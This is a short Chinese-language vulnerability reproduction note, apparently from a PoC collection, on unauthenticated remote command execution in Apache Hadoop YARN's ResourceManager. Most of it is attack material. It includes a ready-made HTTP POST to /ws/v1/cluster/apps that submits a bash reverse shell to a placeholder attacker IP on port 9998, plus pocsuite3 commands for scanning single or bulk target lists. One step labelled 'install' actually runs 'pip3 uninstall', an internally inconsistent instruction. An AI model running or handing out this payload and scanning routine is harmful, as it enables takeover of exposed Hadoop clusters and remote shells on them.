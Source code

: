 

# Apache Hadoop Yarn RPC 远程命令执行漏洞

### 漏洞描述

```py
Hadoop Yarn RPC未授权访问漏洞存在于Hadoop Yarn中负责资源管理和任务调度的ResourceManager，成因是该组件为用户提供的RPC服务默认情况下无需认证即可访问
```

### 漏洞复现

![image-20221017180158177](https://i0.hdslb.com/bfs/album/20d322d740b3a7c2268db683c45dbbd214c56f74.png)

验证请求包

```php
POST /ws/v1/cluster/apps HTTP/1.1
Host: 你的url
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 215
Content-Type: application/json

{"application-id": "application_1655112607010_0005", "application-name": "get-shell", "am-container-spec": {"commands": {"command": "/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9998 0>&1"}}, "application-type": "YARN"}
```

![image-20221017170021895](https://i0.hdslb.com/bfs/album/8d811d331d23b098e94e5c74508ec18979e4592c.png)

```py
先安装
pip3 uninstall pocsuite3
```

```py
txt批量扫描
pocsuite -r pocs/Hadoop.py -f Hadoop.txt --verify
```

![image-20221017173157708](https://i0.hdslb.com/bfs/album/c781128eb80f967e14d7bec30c64b53cae9b269b.png)

```py
再打开pocsuite3文件夹，cmd进行如下命令
单个url扫描
pocsuite -r pocs/Hadoop.py -u http://www.example.com --verify
```

![image-20221017170852801](https://i0.hdslb.com/bfs/album/cc65ba6436f7961026a1ef236eb37bd4bf71d238.png)

```py
http://你的url/ws/v1/cluster/apps/application_1655112607010_0005
```

![image-20221017165714043](https://i0.hdslb.com/bfs/album/7f71c753ba62e51f6e8e894a21ad0145bc28898e.png)
